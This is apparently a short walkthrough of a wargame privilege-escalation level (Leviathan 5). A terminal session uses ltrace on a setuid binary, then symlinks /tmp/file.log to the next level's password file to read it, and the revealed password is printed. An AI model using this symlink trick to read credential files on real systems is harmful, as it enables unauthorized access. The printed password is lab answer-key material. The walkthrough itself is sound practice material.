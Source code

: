 leviathan5@leviathan:~$ ls -alh
total 28K
drwxr-xr-x  2 root       root       4.0K Aug 26  2019 .
drwxr-xr-x 10 root       root       4.0K Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3.5K May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7.4K Aug 26  2019 leviathan5
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                             = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                       = 26
exit(-1 <no return ...>
+++ exited (status 255) +++


******************We can see that the ELF binary is trying to access /tmp/file.log - lets try to create a symlink to the next levels password; because the binary is owned by leviathan6.



leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
UgaoFee4li